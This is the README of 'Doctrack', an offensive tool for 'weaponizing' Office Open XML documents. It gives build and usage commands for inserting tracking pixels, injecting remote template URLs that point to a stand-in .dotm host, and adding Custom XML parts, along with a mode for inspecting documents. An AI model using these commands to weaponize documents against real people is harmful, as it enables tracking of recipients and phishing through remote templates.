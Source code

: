 ﻿# Doctrack
Tool to manipulate and weaponize Office Open XML documents.
## Features
* Insert tracking pixels into Office Open XML documents (Word, Excel)
* Inject template URL (aka Remote Template Injection)
* Insert CustomXML parts
* Inspect external target URLs, metadata and Custom XML parts
## Installation
You will need to download [.Net 6.0](https://dotnet.microsoft.com/download/). Then, to build a single binary on Windows:
```cmd
$ git clone https://github.com/wavvs/doctrack.git
$ cd doctrack/
$ dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
On Linux:
```bash
$ dotnet publish -r linux-x64 -c Release /p:PublishSingleFile=true
```
## Usage
```cmd
$ doctrack --help
Tool to manipulate and weaponize Office Open XML documents.

  -i, --input          Input filename.
  -o, --output         Output filename. If not set, document is saved as --input
                       file.
  -m, --metadata       Metadata to supply (JSON file).
  -u, --url            URL to insert.
  -e, --template       (Default: false) If set, enables template URL injection.
  -s, --inspect        (Default: false) Inspect document.
  -c, --custom-part    Insert a Custom XML part (XML file)
  --help               Display this help screen.
```
Insert a tracking pixel and change document metadata:
```cmd
$ doctrack -i test.docx -o test.docx --metadata metadata.json --url http://test.url/image.png
```
Insert a remote template URL (aka Remote Template Injection):
```cmd
$ doctrack -i test.docx -o test.docx --url http://test.url/template.dotm --template
```
Insert a Custom XML part:
```
$ doctrack -i test.docx -o test.docx -c part.xml
```
Inspect external target URLs, metadata and Custom XML parts:
```cmd
$ doctrack -i test.docx --inspect
[External targets]
Part: /word/document.xml, ID: R8783bc77406d476d, URI: http://test.url/image.png
Part: /word/settings.xml, ID: R33c36bdf400b44f6, URI: http://test.url/template.dotm

[Metadata]
Creator: wavvs
Title: doctrack
Subject:
Category:
Keywords:
Description: Tool to insert tracking pixels into Office Open XML documents.
ContentType:
ContentStatus:
Version:
Revision:
Created: 13.10.2020 23:20:39
Modified: 13.10.2020 23:20:39
LastModifiedBy:
LastPrinted: 13.10.2020 23:20:39
Language:
Identifier:

[CustomXML Parts]
Part: /customXML/item.xml (25 bytes)
```